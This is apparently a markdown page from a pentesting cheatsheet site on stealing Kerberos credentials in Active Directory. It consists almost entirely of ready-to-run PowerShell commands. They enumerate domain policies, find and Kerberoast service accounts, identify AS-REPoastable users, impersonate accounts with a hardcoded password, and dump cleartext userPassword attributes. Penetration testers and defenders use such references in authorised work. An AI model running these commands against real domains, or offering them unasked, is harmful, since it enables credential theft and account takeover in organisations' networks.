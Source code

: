 ```yaml
---
layout: post
title: TA0006 Credentials Access - Steal or Forge Kerberos Tickets
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [ENUM: KRB DOMAIN POLICIES](#ENUM:KRBDOMAINPOLICIES)
* [ENUM: TARGETS](#ENUM:TARGETS)
	* [Kerberoasting](#Kerberoasting)
	* [AS-REPoasting](#AS-REPoasting)
	* [User Accounts Status](#UserAccountsStatus)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='ENUM:KRBDOMAINPOLICIES'></a>PREREQ: WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

## <a name='ENUM:KRBDOMAINPOLICIES'></a>ENUM: KRB DOMAIN POLICIES
```powershell
Get-NetDomainController

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.

# get the domain policy settings for the passwords: history, complexicity, lockout, clear-text
(Get-DomainPolicy)."system access"
```

## <a name='ENUM:TARGETS'></a>ENUM: TARGETS

### <a name='Kerberoasting'></a>Kerberoasting
```powershell
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN | select name, description, lastlogon, badpwdcount, logoncount, useraccountcontrol, memberof

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Kerberoast any users in a particular OU with SPNs set
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=<Domain>,DC=local"
```

### <a name='AS-REPoasting'></a>AS-REPoasting
```powershell
# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

### <a name='UserAccountsStatus'></a>User Accounts Status
```powershell
# get all users with passwords changed > 1 year ago, returning sam account names and password last set times
$Date = (Get-Date).AddYears(-1).ToFileTime()
Get-DomainUser -LDAPFilter "(pwdlastset<=$Date)" -Properties samaccountname,pwdlastset,useraccountcontrol

# get the last password set of each user in the current domain
Get-UserProperty -Properties pwdlastset

# all users that require smart card authentication
Get-DomainUser -LDAPFilter "(useraccountcontrol:1.2.840.113556.1.4.803:=262144)"
Get-DomainUser -UACFilter SMARTCARD_REQUIRED

# all users that *don't* require smart card authentication, only returning sam account names
Get-DomainUser -LDAPFilter "(!useraccountcontrol:1.2.840.113556.1.4.803:=262144)" -Properties samaccountname
Get-DomainUser -UACFilter NOT_SMARTCARD_REQUIRED -Properties samaccountname

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```